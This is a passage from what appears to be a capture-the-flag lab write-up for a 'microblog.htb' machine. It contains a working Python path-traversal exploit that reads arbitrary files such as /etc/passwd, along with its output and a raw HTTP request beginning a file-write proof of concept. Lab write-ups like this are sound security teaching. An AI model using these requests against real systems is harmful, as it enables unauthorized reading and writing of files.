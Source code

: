 ```
# register for site
body = {"first-name": token, "last-name": token, "username": token, "password": token}
resp = sess.post("http://app.microblog.htb/register/", data=body)

# create blog
resp = sess.post("http://app.microblog.htb/dashboard/", data={"new-blog-name": token})

# file read
resp = sess.post(f"http://microblog.htb/edit/",
                 data={"id": f"../../../../../../{file}", "txt":"0xdf"},
                 headers={"Host": f"{token}.microblog.htb"},
                 allow_redirects=False)
data = re.search(r'const html = "<div class = \\".+?\\">(.*?)<\\/', resp.text, re.DOTALL).group(1)
print(bytes(data, 'utf-8').decode('unicode_escape'))

```

The result allows me to request files:

```
oxdf@hacky$ python file_read.py /etc/passwd
root:x:0:0:root:\/root:\/bin\/bash
daemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin
...[snip]...
cooper:x:1000:1000::\/home\/cooper:\/bin\/bash
redis:x:103:33::\/var\/lib\/redis:\/usr\/sbin\/nologin
git:x:104:111:Git Version Control,,,:\/home\/git:\/bin\/bash
messagebus:x:105:112::\/nonexistent:\/usr\/sbin\/nologin
sshd:x:106:65534::\/run\/sshd:\/usr\/sbin\/nologin
_laurel:x:997:997::\/var\/log\/laurel:\/bin\/false
oxdf@hacky$ python file_read.py /proc/self/cmdline
php-fpm: pool www

```

#### File Write POC

I’ll find most attempts to write inside the current web directory fail. There is one directory that must be writable, and that’s `/content`. Trying to visit `/content` on a microblog site returns 403:

![image-20230515150546024](https://0xdf.gitlab.io/img/image-20230515150546024.png)

I know the site has to be able to write files in this folder. I’ll try to write there with a request like:

```
POST /edit/ HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: efjexomlsilayjqmkqjj.microblog.htb
Cookie: username=90jlpppeeqlelf3fuc5q3efib2
Content-Length: 30
Content-Type: application/x-www-form-urlencoded

id=0xdf.txt&txt=0xdf+was+here!

```

